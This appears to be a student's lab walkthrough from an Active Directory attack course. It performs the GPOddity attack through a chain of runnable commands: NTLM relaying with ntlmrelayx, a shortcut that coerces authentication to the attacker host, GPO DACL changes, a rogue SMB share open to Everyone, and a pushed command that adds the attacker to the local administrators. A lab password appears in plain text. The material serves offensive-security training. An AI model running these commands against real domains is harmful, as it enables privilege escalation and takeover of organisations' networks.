 A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

This enables loading of a malicious template from a location that we
control.


![[Pasted image 20250505062951.png]]

Open WSL Ubuntu shell and start NTLM relay (relay) - WSLToTh3Rescue!
```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.48 --http-port '80,8080' -i --no-smb-server
```

Create new shortcut with this command and place in writable share
```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke WebRequest -Uri 'http://172.16.100.48' -UseDefaultCredentials"

xcopy .\student548.lnk \\dcorp-ci\AI
```

After relay connect to shell
```bash
nc 127.0.0.1 11000
```

Delegate `WriteDACL` permissions to the group policy the relayed user can control
```bash
write_gpo_dacl student548 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

**OR** we can add a computer and use those credentials
```bash
add_computer stdx-gpattack Secretpass@123

write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

Run GPOddity to edit Group Policy
```bash
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'studentx' --password 'gG38Ngqym2DpitXuGrsJ' --command 'net localgroup administrators studentx
/add' --rogue-smbserver-ip '172.16.100.x' --rogue-smbserver-share 'std548-gp' -
-dc-ip '172.16.2.1' --smb-mode none
```

Move group policy files from GPOddity to new share folder
```bash
mkdir /mnt/c/AD/Tools/std548-gp

cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std548-gp
```

From Admin CMD create a the file share called `std548-gp` and grant full perms to everyone
```powershell
net share stdx-gp=C:\AD\Tools\stdx-gp /grant:Everyone,Full

icacls "C:\AD\Tools\stdx-gp" /grant Everyone:F /T
```

Check `gpcfilesyspath`
```powershell
Get-DomainGPO  -Identity "DevOps Policy"
```

Wait for Group Policy to refresh and test new privileges
```powershell
gpupdate /force

winrs -r:dcorp-ci cmd /c "set computername && set username"
```
